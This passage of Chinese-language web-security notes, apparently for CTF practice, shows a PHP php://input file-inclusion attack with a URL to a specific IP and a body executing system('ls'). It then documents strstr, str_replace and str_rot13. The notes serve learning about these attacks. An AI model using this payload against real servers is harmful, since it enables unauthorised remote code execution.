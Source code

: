 ```
http://223.112.5.141:62276/?page=PHP://input
```

表单:
```php
<?php
system("ls")
?>
```

并且这个请求不论是 POST 还是 GET 都可以发送, 一般来说会用带请求体的 GET 方法 (不规范但合法, 被php解析)

#### php函数

PHP 手册: [官网](https://www.php.net/manual/zh/)

```php
strstr(
    string $haystack, 
    string $needle, 
    bool $before_needle = false
    ): string|false
```
搜索一个字符串中某个子字符串的首次出现位置, 参数:
- `haystack`: 输入字符串。
- `needle`: 搜索字符串
- `before_needle`: 默认为 `false`, 为 `true` 返回该子字符串 (`needle`) 前面的字符串, 否则返回其 (含本身) 后的所有字符串。



```php
str_replace(
    array|string $search,
    array|string $replace,
    string|array $subject,
    int &$count = null
): string|array`
```

该函数返回字符串或者数组。该字符串或数组是将 `subject` 中全部的 `search` 都被 `replace` 替换之后的结果。

- `search`
  查找的目标值，也就是 needle。一个数组可以指定多个目标。

- `replace`
  search 的替换值。一个数组可以被用来指定多重替换。

- `subject` 
  执行替换的数组或者字符串。也就是 `haystack`。如果 `subject` 是一个数组，替换操作将遍历整个 `subject`，返回值也将是一个数组。

- `count`
  如果被指定，它的值将被设置为替换发生的次数。

如果 `search` 和 `replace` 都是数组, 那么他们的替换关系将会一一对应

```php
str_rot13(string $string): string
```
